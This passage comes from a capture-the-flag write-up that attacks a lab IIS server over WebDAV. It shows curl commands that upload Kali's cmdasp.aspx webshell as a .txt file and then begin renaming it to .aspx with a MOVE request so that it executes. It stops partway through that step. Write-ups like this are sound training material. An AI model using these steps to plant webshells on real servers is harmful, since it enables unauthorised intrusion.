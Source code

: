     <li>Go to <a href="http://go.microsoft.com/fwlink/?linkid=8180">Microsoft Product Support Services</a> and perform a title search for the words <b>HTTP</b> and <b>403</b>.</li>
    <li>Open <b>IIS Help</b>, which is accessible in IIS Manager (inetmgr),
     and search for topics titled <b>Configuring ISAPI Extensions</b>, <b>Configuring CGI Applications</b>, <b>Securing Your Site with Web Site Permissions</b>, and <b>About Custom Error Messages</b>.</li>
    <li>In the IIS Software Development Kit (SDK) or at the <a href="http://go.microsoft.com/fwlink/?LinkId=8181">MSDN Online Library</a>, search for topics titled <b>Developing ISAPI Extensions</b>, <b>ISAPI and CGI</b>, and <b>Debugging ISAPI Extensions and Filters</b>.</li>
    </ul>
    
    </TD></TR></TABLE></BODY></HTML>
    

Just like `davtest` said, I can’t put aspx files directly.

#### Tools

There’s a tool called `cadaver` that provides command-line WebDAV interactions
with a slightly simpler syntax than curl. If I are going to be attacking a
WebDAV server, I’ll probably use that just for the shorter commands. That
said, I’m going to use `curl` in this post to show exactly what is happening
when I issue these HTTP requests. If you are interested in `cadaver`, check
out the [man page](https://linux.die.net/man/1/cadaver).

## Shell as network service

### Upload Webshell

The first thing I’ll need to do is upload my webshell. Kali has a simple one
at `/usr/share/webshells/aspx/cmdasp.aspx`. I’ll grab a copy:

    
    
    root@kali# cp /usr/share/webshells/aspx/cmdasp.aspx .
    

Now I’ll upload that to target as a txt using curl and the http put method:

    
    
    root@kali# curl -X PUT http://10.10.10.15/0xdf.txt -d @cmdasp.aspx 
    

If I look at the page now, I’ll see the code, but it’s not executed, as the
server is treating it as text:

![1551906569357](https://0xdfimages.gitlab.io/img/1551906569357.png)

### Move Webshell

Now I’ll use the next webdav command, MOVE. Again, I can do this with curl:

  * `-X MOVE` \- use the MOVE method
  * `-H 'Destination:http://10.10.10.15/0xdf.aspx'` \- defines where to move to
  * `http://10.10.10.15/0xdf.txt` \- the file to move

    